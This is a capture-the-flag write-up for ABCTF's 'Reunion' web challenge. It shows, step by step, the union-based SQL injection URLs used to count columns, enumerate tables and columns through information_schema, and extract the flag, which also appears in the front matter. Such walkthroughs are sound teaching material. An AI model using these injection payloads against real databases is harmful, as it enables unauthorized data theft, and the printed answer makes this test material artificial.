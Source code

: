 ```yaml
---
layout: writeup
title: 'Reunion'
level:
difficulty:
points: 150
categories: [web exploitation]
tags: []
flag: abctf{uni0n_1s_4_gr34t_c0mm4nd}
---
```

**Challenge**   
SQL injection challenge, great resource for union based sql injection
[here][1]

## Solution

first we find out how many columns there are by simply guessing and
seeing when we get an output:

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: 134

bingo!

next we find out the table name

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+
    
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: w0w_y0u_f0und_m3
    Name: 42
    Breed: 5
    Color: webeight

so we know the table\_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this
to work):

    http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
    Name: Doodle
    Breed: Poodle
    Color: Pink
    Name: 2
    Breed: 2
    Color: f0und_m3
    '''
    
    So we found the column name we need. now to extract data from this column
    
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 4
    Breed: 2
    Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}



[1]: http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html
